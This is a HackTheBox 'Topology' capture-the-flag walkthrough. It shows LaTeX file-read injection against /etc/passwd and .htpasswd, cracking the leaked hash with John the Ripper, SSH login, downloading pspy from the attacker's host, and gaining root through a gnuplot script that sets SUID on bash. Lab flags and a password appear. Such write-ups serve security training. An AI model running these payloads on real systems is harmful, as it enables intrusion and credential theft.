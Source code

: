 ```yaml
---
title: 'HackTheBox: Topology'
disqus: hackmd
---
```


HackTheBox: Topology
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/machines/Topology

### Initial Enumeration

●Start Machine: \
![](https://hackmd.io/_uploads/HJ8NFx2z6.png)


## Solution

### 1. Attempt

#### 1.1 Edit /etc/hosts
/etc/hosts
> 10.10.11.217    topology.htb

#### 1.2 Browse http://topology.htb/
![](https://hackmd.io/_uploads/Hk9Uqx2Ga.png)

#### 1.3 nmap scan 
> nmap -sC -sV -T4 10.10.11.217

![](https://hackmd.io/_uploads/Hy2msl2GT.png)
#### 1.4 dirsearch scan
> dirsearch -u http://topology.htb/

![](https://hackmd.io/_uploads/rkvcZ-2fa.png)
> /.htpasswd_test
> /.htpasswds

#### 1.5 Subdomain latex.topology.htb 
![](https://hackmd.io/_uploads/BJQgA62f6.png)
Edit /etc/hosts
/etc/hosts
> 10.10.11.217    latex.topology.htb

![](https://hackmd.io/_uploads/rJ9vCanfp.png)

#### 1.6 Attempt LaTeX Equation Generator
Test:
> chwchw

![](https://hackmd.io/_uploads/BkTmJChGa.png)
> http://latex.topology.htb/equation.php?eqn=chwchw&submit=

![](https://hackmd.io/_uploads/HJU8JRnMp.png)

### 2. Command Injection
● [LaTex 基本介紹](https://albertyzp.github.io/2019/10/15/LaTex%E5%9F%BA%E7%A1%80%E6%89%8B%E5%86%8C/#%E4%B8%80-latex%E5%9F%BA%E6%9C%AC%E6%A6%82%E5%BF%B5)
● [LaTex listening source code](https://en.wikibooks.org/wiki/LaTeX/Source_Code_Listings)
●\lstinputlisting{} 是Command，不是數學符號，所以用$ $ 將內部原始碼$閉合。
![image.png](https://hackmd.io/_uploads/rylP77b76.png)

```
$\lstinputlisting{/etc/passwd}$
```
![](https://hackmd.io/_uploads/Sk9heCnMa.png)

```
@hewen
input 引用另一個 LaTeX 文檔；lstinputlisting 引用外部檔案
$\lstinputlisting{/etc/hosts}$
eqn=$\lstinputlisting{/etc/apache2/apache2.conf}$ #Apache server
```

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](https://hackmd.io/_uploads/rJEp-A2zp.png)
Get user/password
> vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
> user: vdaisley
> password: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
#### 2.1 [Password Formats:$ apr1 $](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html)

MD5
"$ apr1 $" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password. See the APR source file apr_md5.c for the details of the algorithm.

#### 2.2 John-the-Ripper tools 
Hash工具破解工具:MD5、SHA1、SHA256、MySQL 與NTLM 的雜湊
> sudo apt-get install john -y
> john --wordlist=rockyou.txt ./topology.txt

![](https://hackmd.io/_uploads/HyVyrlaMT.png)
> password(MD5 decrypt): calculus20

### 3. SSH Login
> ssh vdaisley@10.10.11.217
> ls -al

![](https://hackmd.io/_uploads/HkbbIlpMa.png)
> cat user.txt

![](https://hackmd.io/_uploads/H1E78eTMp.png)
### 4. GET USER FLAG
> **FLAG: 995aae620785c32d38235ff75eb0cc34**

### 5. Gnuplot
●Gunplot: 繪圖工具(產生plt file)
> ls -al /opt

![](https://hackmd.io/_uploads/B17DarCzT.png)

### 6. pspy Tools
●[pspy tools](https://www.freebuf.com/articles/web/254452.html): 不需root權限即可監聽。
●GitHub: [pspy-unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy?source=post_page-----1e4cf07d7805--------------------------------#pspy---unprivileged-linux-process-snooping) 
> wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
> chmod +x pspy64 //給執行權限
> ./pspy64

![image.png](https://hackmd.io/_uploads/SJyry51QT.png)
#### 6.1 SSH download pspy from local
>python3 -m http.server
vdaisley@topology:~$ wget 10.10.16.35:8000/pspy64

![image.png](https://hackmd.io/_uploads/H1fvkqymp.png)

![image.png](https://hackmd.io/_uploads/BJdwJ9ymT.png)
> vdaisley@topology:~$ ls
pspy64  user.txt
vdaisley@topology:~$ chmod +x pspy64 
vdaisley@topology:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     

#### 6.2 chmod new .plt file
● [Gnuplot Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/?source=post_page-----1e4cf07d7805--------------------------------)
● [chmod command](https://zh.wikipedia.org/zh-tw/Chmod)
> vdaisley@topology:~$ echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/chw.plt
vdaisley@topology:~$ cat /opt/gnuplot/chw.plt
system 'chmod u+s /bin/bash'
vdaisley@topology:~$ ls -al /opt/gnuplot/chw.plt
-rw-rw-r-- 1 vdaisley vdaisley 29 Nov  1 04:22 /opt/gnuplot/chw.plt

```
@hewen
執行這個檔案的時後以檔案擁有者身份執行，而不是以當前使用者的身份執行。
雖然執行時會出現 error，但檔案屬性還是改變了
/bin/bash -p
```

> vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# 

![image.png](https://hackmd.io/_uploads/r1lUnZcyQa.png)
> bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
![image.png](https://hackmd.io/_uploads/H1Baa9y76.png)
> bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt 

![image.png](https://hackmd.io/_uploads/B131z91mp.png)


### 7. GET ROOT FLAG
> **FLAG: 2cf94752042e7319560bf84534369988**

###### tags: `CTF` `Web` `nmap` `dirsearch` `Command Injection` `pspy` `John-the-Ripper` `MD5`
